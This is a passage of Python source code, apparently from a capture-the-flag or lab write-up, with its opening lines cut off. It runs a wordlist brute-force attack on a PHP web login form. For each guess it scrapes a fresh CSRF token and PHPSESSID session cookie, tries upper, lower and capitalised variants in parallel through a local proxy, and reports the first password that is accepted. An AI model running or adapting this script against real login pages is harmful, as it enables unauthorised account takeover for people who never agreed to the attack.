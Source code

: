     #<input type="hidden" name="csrf" value="aab59572a210c4ee1f19ab55555a5d829e78b8efdbecd4b2f68bd485d82f0a57" />
    csrf_pattern = re.compile('name="csrf" value="(\w+)" /')

    def usage():
        print("{} [wordlist]".format(sys.argv[0]))
        print("  wordlist should be one word per line]")
        sys.exit(1)

    def check_password(password):

        # get csrf token and PHPSESSID
        r = requests.get(url)
        csrf = re.search(csrf_pattern, r.text).group(1)
        PHPSESSID = [x.split('=')[1] for x in r.headers['Set-Cookie'].split(';') if x.split('=')[0] == 'PHPSESSID'][0]

        # try login:
        data = {"csrf": csrf,
                "user_name": username,
                "user_password": password,
                "action": "login"}
        proxies = {'http': 'http://127.0.0.1:8080'}
        headers = {'Cookie': "PHPSESSID={}".format(PHPSESSID)}
        r = requests.post(url, data=data, proxies=proxies, headers=headers)

        if '<p>The information is incorrect.</p>' in r.text:
            return password, False
        else:
            return password, True


    def main(wordlist, nprocs=MAX_PROC):
        with open(wordlist, 'r', encoding='latin-1') as f:
           words = f.read().rstrip().replace('\r','').split('\n')

        words = [x.lower() for x in words] + [x.capitalize() for x in words] + words + [x.upper() for x in words]

        pool = Pool(processes=nprocs)

        i = 0
        print_status(0, len(words))
        for password, status in pool.imap_unordered(check_password, [pass_ for pass_ in words]):
            if status:
                sys.stdout.write("\n[+] Found password: {} \n".format(password))
                pool.terminate()
                sys.exit(0)
            else:
                i += 1
                print_status(i, len(words))

        print("\n\nPassword not found\n")
